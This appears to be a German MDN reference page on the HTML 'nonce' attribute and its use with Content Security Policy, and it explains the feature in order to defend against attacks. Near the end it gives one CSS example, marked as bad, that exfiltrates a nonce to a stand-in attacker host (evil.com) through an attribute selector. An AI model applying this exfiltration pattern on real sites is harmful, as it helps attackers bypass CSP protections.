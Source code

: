 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
l10n:
  sourceCommit: 4d929bb0a021c7130d5a71a4bf505bcb8070378d
---
```


{{HTMLSidebar("Global_attributes")}}

Das **`nonce`** [Globale Attribut](/de/docs/Web/HTML/Global_attributes)
ist ein Inhaltsattribut, das eine kryptografische Zufallszahl definiert ("number used once"), die von der
[Content Security Policy (CSP)](/de/docs/Web/HTTP/Guides/CSP) verwendet werden kann, um zu bestimmen, ob ein bestimmter Datenabruf
für ein bestimmtes Element erlaubt wird oder nicht.

## Beschreibung

Das `nonce` Attribut ist nützlich, um spezifische Elemente, wie zum Beispiel ein bestimmtes Inline-Skript oder Style-Elemente, auf die Zulassungsliste zu setzen.
Es kann Ihnen helfen, die Verwendung der [CSP](/de/docs/Web/HTTP/Guides/CSP) Anweisung `unsafe-inline` zu vermeiden, die _alle_ Inline-Skripte oder Styles auf die Zulassungsliste setzen würde.

> [!NOTE]
> Nutzen Sie `nonce` nur in Fällen, in denen Sie keine andere Möglichkeit haben, unsichere Inline-Skript-
> oder Stil-Inhalte zu verwenden. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Skript statisch ist, könnten Sie stattdessen einen CSP-Hash verwenden.
> (Siehe Nutzungshinweise zu [unsicheren Inline-Skripten](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Versuchen Sie stets, die [CSP](/de/docs/Web/HTTP/Guides/CSP) Schutzmechanismen voll auszunutzen und vermeiden Sie Nonces oder unsichere Inline-Skripte, wann immer möglich.

### Verwendung von nonce zur Zulassungsliste eines `<script>`-Elements

Es gibt einige Schritte, um ein Inline-Skript mit dem Nonce-Mechanismus auf die Zulassungsliste zu setzen:

#### Generierung von Werten

Von Ihrem Webserver aus generieren Sie eine zufällige, Base64-kodierte Zeichenkette mit mindestens 128 Bit Daten aus einem kryptografisch sicheren
Zufallszahlengenerator. Nonces sollten bei jedem Laden der Seite unterschiedlich generiert werden (Nonce nur einmal!). Zum Beispiel in Node.js:

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Zulassungsliste für Inline-Script

Der auf Ihrem Backend-Code generierte Nonce sollte nun für das Inline-Skript verwendet werden, das Sie auf die Zulassungsliste setzen möchten:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Senden eines Nonce mit einem CSP-Header

Schließlich müssen Sie den Nonce-Wert in einem
[`Content-Security-Policy`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy) Header senden
(präfixiert mit `nonce-`):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und Nonce-Verbergung

Aus Sicherheitsgründen wird das `nonce` Inhaltsattribut verborgen (ein leerer String wird zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce) Eigenschaft ist der einzige Weg, um auf Nonces zuzugreifen:

```js example-good
script.nonce; // returns nonce value
```

Das Verbergen von Nonces hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen zu exfiltrieren, die Daten aus Inhaltsattributen erfassen können, wie in diesem Fall:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src)
